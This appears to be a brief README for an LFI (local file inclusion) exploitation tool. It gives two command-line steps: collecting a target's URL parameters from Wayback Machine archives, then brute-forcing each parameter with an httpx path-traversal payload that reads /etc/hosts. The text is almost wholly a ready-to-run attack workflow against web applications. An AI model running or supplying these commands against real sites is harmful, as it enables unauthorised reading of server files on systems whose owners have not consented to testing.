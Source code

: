 ```
# LFI
LFI exploitation tool

1.Gather Parameters from wayback
```
waybackurls target | grep -Eo '\b[^=&?]+\=[^&?]+' | awk -F= '{print $1}' | sort -u
```
2.Bruteforce LFI
```
xargs -I{} httpx -silent -path "?{}=/../../../../../../../../etc/hosts" -u target
```

